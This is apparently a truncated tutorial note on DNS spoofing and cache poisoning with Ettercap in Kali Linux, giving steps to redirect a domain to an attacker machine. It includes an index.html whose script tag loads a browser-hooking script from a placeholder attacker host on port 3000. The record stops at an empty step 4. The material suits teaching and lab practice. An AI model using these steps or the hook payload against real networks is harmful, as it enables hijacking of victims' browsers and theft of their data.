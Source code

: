 ### DNS Spoofing
* An attack method used to impersonate a victim's DNS server, forcing them to navigate to a malicious website.
* This attack is accomplished through MitM (Man in The Middle).
* The goal is to exploit the target with a malicious redirect or steal sensitive information from a fake web page.

### DNS Cache Poisoning
* The DNS resolver cache is overwritten on the DNS server with a malicious web address, and the user will receive the malicious site instead of the intended one.

**Use Ettercap in Kali to conduct these attacks**

## Ettercap DNS

1) Modify the etter.dns file
* Location: /etc/ettercap/etter.dns
* Add an entry to the file for the domain name example.com and have it point to your kali box.
* Look for the line "microsoft sucks ;) on line 57

2) Edit etter.conf file
* Location: /etc/ettercap/etter.conf
* Change two config settings: ec_uid and ec_gid. Set both to equal 0.
* Save and exit the file.

3) Create index.html
* Create an index.html in /tmp. The code to input is below
````
<html>
      <h1>You got pwnd!!</h1>
      <script src='http://HOST_IP:3000/hook.js'></script>
</html>
````

* Use the Python SimpleHTTPServer module to host the web page on port 80
````
python -m SimpleHTTPServer 80
````

4) 
